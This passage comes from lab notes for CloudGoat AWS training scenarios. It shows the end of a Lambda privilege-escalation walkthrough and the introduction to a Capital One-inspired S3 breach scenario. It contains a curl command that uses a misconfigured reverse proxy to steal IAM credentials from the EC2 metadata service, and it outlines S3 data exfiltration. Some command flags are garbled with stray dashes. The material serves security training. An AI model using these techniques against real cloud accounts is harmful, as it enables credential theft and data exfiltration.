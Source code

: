 ```bash
    -—region $AWS_REGION

# Invoke the Lambda function created. If successful, it will return a status code of 200.
aws lambda invoke \
    -–function-name admin_function output.txt \
    -–profile $LambdaROFILE \
    -—region $AWS_REGION


# ------------- 8. Confirm if the IAM user – Chris has the new role attached to his profile:
aws iam list-attached-user-policies \
    –-user-name $USERNAME \
    -–profile $SRC_PROFILE


# ------------- 9. To destroy the resources created during this lab:
./cloudgoat.py destroy lambda_privesc


```



---


### Scenarios 3: cloud_breach_s3 (Small / Moderate)

| ++             | ++                                       |
| -------------- | ---------------------------------------- |
| Scenario Goal  | Acquire full admin privileges.           |
| Size           | Small                                    |
| Difficulty     | Easy                                     |
| Command        | `$ ./cloudgoat.py create cloud_breach_s3` |
| lesson learned | <font color=red> misconfigured reverse-proxy server </font>  `curl http://$EC2IP/latest/meta-data/iam/security-credentials -H ‘Host: 169.254.169.254’` |


> Introduction
> This scenario is inspired by the Capital One breach.
> 2019, a bad actor accessed data stored in AWS S3 buckets owned by Capital One and posted the exfiltrated data on GitHub. The bad actor gained access to the S3 bucket by exploiting a misconfigured AWS service (in this case it seems to be a firewall) to run commands on the Elastic Cloud Compute (EC2) Instance.
> In addition, the EC2 Instance also had an Identity and Access Management (IAM) role assigned, which allowed anyone who had access to the server to access AWS resources such as the AWS S3 buckets.  

![scenario2-11](https://i.imgur.com/g2n9m9R.png)


Starting as an anonymous outsider with no access or privileges
- exploit a misconfigured reverse-proxy server
- to query the EC2 metadata service and acquire instance profile keys.
- Then, use those keys to discover, access, and exfiltrate sensitive data from an S3 bucket.

---